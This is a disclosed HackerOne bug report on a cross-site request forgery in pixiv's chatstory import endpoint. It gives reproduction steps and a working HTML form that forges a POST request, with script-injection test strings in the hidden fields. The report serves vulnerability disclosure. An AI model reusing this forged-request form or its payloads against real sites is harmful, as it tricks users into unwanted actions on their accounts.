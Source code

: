 # CSRF at https://chatstory.pixiv.net/imported

## Report Details
- **Report ID**: 534908
- **URL**: https://hackerone.com/reports/534908
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-04-11T04:33:59.006Z
- **Disclosed**: 2020-07-02T09:46:56.099Z

## Reporter
- **Username**: katsuragicsl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: pixiv

## Vulnerability Information
## Summary:

A CSRF in `https://chatstory.pixiv.net/imported` can trick users to import a novel of the attacker as the users' chatstory.

## Steps To Reproduce:

  1. Attacker creates a novel
  2. Go to the novel (https://www.pixiv.net/novel/show.php?id=10997105) Import the novel as chatstory by clicking the "チャットストーリーを作る" on the sidebar. You show notice that the actual request to create a chatstory is a POST request to `https://chatstory.pixiv.net/imported` with body

`id=<novel_id>&text=<something>&comment=<something>&title=<something>&user_id=<attacker_id>&x_restrict=0&is_original=true`

  3. Use the above information to create a http post form. The <attacker_id> doesn't matter. 

## Supporting Material/References:

Please see the following "living" PoC:

`<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://chatstory.pixiv.net/imported" method="POST">
      <input type="hidden" name="id" value="10997105" />
      <input type="hidden" name="text" value="test&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;&#13;&#10;&#13;&#10;&#13;&#10;Title&#13;&#10;&#13;&#10;Normal&#13;&#10;&#13;&#10;Jump&#13;&#10;&#13;&#10;&#13;&#10;" />
      <input type="hidden" name="comment" value="test&amp;lt&#59;script&amp;gt&#59;alert&#40;1&#41;&amp;lt&#59;&#47;script&amp;gt&#59;" />
      <input type="hidden" name="tags" value="&#35;test" />
      <input type="hidden" name="title" value="test&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="hidden" name="user&#95;id" value="39570048" />
      <input type="hidden" name="x&#95;restrict" value="0" />
      <input type="hidden" name="is&#95;original" value="true" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
`

## Impact

Trick users to import novel of attacker as a chatstory

## Attachments
No attachments
